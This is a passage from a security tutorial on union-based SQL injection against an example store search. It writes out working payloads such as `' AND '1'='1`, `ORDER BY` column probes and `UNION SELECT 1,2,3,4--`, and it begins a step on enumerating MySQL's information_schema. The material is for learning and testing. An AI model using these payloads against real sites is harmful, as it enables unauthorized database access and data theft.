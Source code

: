 If you just searched `milk crate` on the store then it would only show you the results for the item named `milk crate`. However, if you searched `milk crate' AND '1'='1` and it returns with the same results then you have found the attack vector for exploiting the SQLi vulnerability. This is because the input malformed the query to still search for `milk crate` and insert a SQL `AND` conditional that always returns **true** (the malformed query is shown below). However, if the input was not vulnerable then the DB would have searched for `milk crate' AND '1'='1` and returns no results since there are no items with that name (i.e., a prepared statement).

_The malformed query_

```sql
SELECT name, description, amount, price FROM items WHERE name LIKE 'milk crate' AND '1'='1'
```

#### **5.1.1.2 Methodology for exploiting Union-based SQLi**

**Step 1: Finding the number of columns your payload needs to return**

Once you have discovered the vulnerable input to SQLi, the first step is to determine how many columns should be returned by the vulnerable SQL query. This is because when you use `UNION SELECT` to append additional results the number of columns needs to match the number of columns of the original query, otherwise the SQL query will cause an SQL error.

You can determine the number of columns you need by using `ORDER BY` or `GROUP BY` and incrementing the column index until an error or no result is returned.

Using the previous `items` example.

* `milk crate' ORDER BY 1--`: Returns the milk crate result
* `milk crate' ORDER BY 2--`: Returns the milk crate result
* `milk crate' ORDER BY 3--`: Returns the milk crate result
* `milk crate' ORDER BY 4--`: Returns the milk crate result
* `milk crate' ORDER BY 5--`: Returns no results. This is because there is no column with the index 5 in the `items` table and causes an SQL error. Therefore, it indicates that the original query returns 4 columns.

An alternative is using the `UNION SELECT` statement with constant values until an error does not occur.

* `milk crate' UNION SELECT 1--`: Returns no results.
* `milk crate' UNION SELECT 1,2--`: Returns no results.
* `milk crate' UNION SELECT 1,2,3--`: Returns no results.
* `milk crate' UNION SELECT 1,2,3,4--`: Returns the milk crate result and a row with the numbers 1, 2, 3 and 4.
* `milk crate' UNION SELECT 1,2,3,4,5--`: Returns no results.

**Step 2: Leaking Information About the Database Management System**

The next step is to discover what databases are available, the table names in those databases and the columns of those database. For this section, it will be assumed that the database management system is MySQL, since the queries can be different across DB management systems. For more information about SQLi enumeration for other DB management systems check out the [PayloadAllTheThings repository](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection).

On MySQL databases, the **`information_schema`** database stores all of the metadata about databases, tables and columns stored on the MySQL server. The following SQL queries show how you can retrieve this information from the `information_schema`.
